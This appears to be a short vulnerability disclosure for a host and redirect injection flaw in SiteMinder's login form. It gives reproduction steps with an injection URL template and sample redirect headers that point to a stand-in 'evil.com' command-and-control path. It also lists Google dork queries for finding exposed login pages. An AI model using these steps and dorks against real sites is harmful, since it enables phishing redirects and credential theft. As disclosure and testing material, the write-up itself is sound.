 # Host-Manipulation-Siteminder

#Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.

                                                                                                
# Step to reproduce:
1) On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
2) After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:

"Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd"

"Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f"

# Proof of Concept:
First Redirect (Secure Redirect)
<img src="https://i.imgur.com/jQtU2XL.png">

Second Redirect (After Inject)
<img src="https://i.imgur.com/WsVUBw8.png">

# Google Hacking:
intitle:"SiteMinder Password Services"
inurl:"/siteminderagent/forms/login.fcc"
